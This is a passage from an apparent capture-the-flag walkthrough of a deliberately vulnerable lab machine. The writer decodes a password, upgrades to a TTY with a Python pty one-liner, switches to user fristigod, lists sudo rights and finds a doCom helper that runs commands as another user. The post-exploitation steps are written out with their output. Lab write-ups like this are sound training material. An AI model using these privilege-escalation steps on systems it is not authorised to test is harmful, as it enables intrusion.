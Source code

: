 I ran it, and it returned:

```
# ./decode.py 
LetThereBeFristi!
``` 

So what was this? Since the whoisyourgodnow.txt file was owned by user fristigod, my first assumption was that this was his password. Easiest way to test was to just try su to user fristigod. For that, I needed a TTY which I could get with Python:

```
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.1$ su - fristigod
su - fristigod
Password: LetThereBeFristi!

-bash-4.1$ whoami
whoami
fristigod
```

Great, one step closer to root! fristigod's home directory contained a file called doCom located in /var/fristigod/.secret_admin_stuff:

```
-bash-4.1$ ./doCom
./doCom
Nice try, but wrong user ;)
```

I checked to see if fristigod had sudo rights, and he did:

```
-bash-4.1$ sudo -l
sudo -l
[sudo] password for fristigod: LetThereBeFristi!

Matching Defaults entries for fristigod on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
```

So user fristi could run the doCom command:

```
-bash-4.1$ sudo -u fristi ./doCom 
sudo -u fristi ./doCom
Usage: ./program_name terminal_command ...-bash-4.1$
```
